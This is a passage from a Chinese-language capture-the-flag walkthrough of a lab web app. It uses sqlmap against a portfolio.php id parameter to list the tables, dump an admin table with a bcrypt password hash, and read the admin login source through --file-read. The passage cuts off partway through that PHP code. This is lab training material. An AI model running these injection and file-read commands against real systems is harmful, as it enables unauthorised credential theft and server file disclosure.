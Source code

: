       ```shell
      sqlmap -u 'http://[IP]:[PORT]/portfolio.php?id=1' -D freelancer --table
      
      Database: freelancer
      [2 tables]
      +-----------+
      | portfolio |
      | safeadmin |
      +-----------+
      ```

    * 获取safeadmin表的数据，但是密码是加密的

      ```shell
      sqlmap -u 'http://[IP]:[PORT]/portfolio.php?id=1' -D freelancer -T safeadmin --dump
      
      
      +----+----------+--------------------------------------------------------------+--------------------+
      | id | username | password                                                     | created_at         |
      +----+----------+--------------------------------------------------------------+--------------------+
      | 1  | safeadm  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | 2019-07-16 20:25:45|
      +----+----------+--------------------------------------------------------------+--------------------+
      ```

    * 尝试通过sqlmap获取shell失败，应该是无法没有文件写入权限，但是有文件读取权限

    * 根据之前Burp Suite记录的网站地图，试图构造文件路径读取网站的管理员后台登陆源码，查看加密方式

      * shell

        ```shell
        sqlmap -u 'http://[IP]:[PORT]/portfolio.php?id=1' -D freelancer -T safeadmin --file-read=/var/www/html/administrat/index.php
        ```

      * php

        ```php
        <?php
        // Initialize the session
        session_start();
         
        // Check if the user is already logged in, if yes then redirect him to welcome page
        if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
          header("location: panel.php");
          exit;
        }
         
        // Include config file
        require_once "include/config.php";
         
        // Define variables and initialize with empty values
        $username = $password = "";
        $username_err = $password_err = "";
         